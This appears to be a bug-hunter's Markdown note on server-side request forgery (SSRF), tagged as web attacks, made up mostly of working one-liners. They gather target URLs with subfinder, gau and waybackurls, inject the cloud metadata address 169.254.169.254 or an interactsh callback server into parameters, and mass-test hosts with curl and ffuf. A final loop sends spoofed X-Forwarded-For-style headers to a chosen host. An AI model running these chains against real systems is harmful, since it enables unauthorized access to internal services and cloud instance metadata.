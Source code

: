 ### SSRF
Tags: #web, #attacks
Link:

---

## Summary

https://raw.githubusercontent.com/imran-parray/Mind-Maps/master/SSRF%20-%20Hackerscroll/ssrf.jpeg

![https://raw.githubusercontent.com/imran-parray/Mind-Maps/master/SSRF%20-%20Hackerscroll/ssrf.jpeg](https://raw.githubusercontent.com/imran-parray/Mind-Maps/master/SSRF%20-%20Hackerscroll/ssrf.jpeg)

## Automation

![Automate Server-side request forgery](https://pbs.twimg.com/media/E2Z-w7TVUAQYLrt?format=jpg&name=large)

`cat params.txt | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I host -P 50 bash -c "curl -ks 'host' | grep \\"compute.internal\\" && echo -e \\"\[VULNERABLE\] - X \\n \\"" | grep "VULN"`

`cat ssrf.txt | qsreplace "interactsh server ID" | anew -q ssrf\_test.txt ffuf -w ssrf\_test.txt -u FUZZ -p "0.6-1.2" -H "(header in thread)" -t 200 -s`

`subfinder -d [http://target.com](https://t.co/OayCGbxSNq?amp=1) -all -silent | httpx -silent -threads 500 | anew -q subdomains.txt`

`cat subdomains.txt | gauplus --random-agent -b png,jpg,svg,gif -t 500 | anew -q gau\_output.txt`

`cat subdomains.txt | xargs -P 30 -I host bash -c "echo host | waybackurls | anew -q wayback\_output.txt" `

`cat wayback\_output.txt gau\_output.txt | urldedupe -s | anew -q params.txt`

`cat parameters.txt | gf ssrf | anew -q ssrf.txt`

## One-Liner

`for i in $(cat $1 | grep -v "*"); do curl "$i" --request-target https://$2 -v -k --path-as-is --max-time 2 -H "X-Originating-IP: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1" -H "X-Remote-IP: 127.0.0.1" -H "X-Client-IP: 127.0.0.1" -H "X-Source-IP: 127.0.0.1" -H "X-True-Client-IP: 127.0.0.1"; done`


---
### References
* https://twitter.com/R0X4R/status/1397944303511474177/photo/1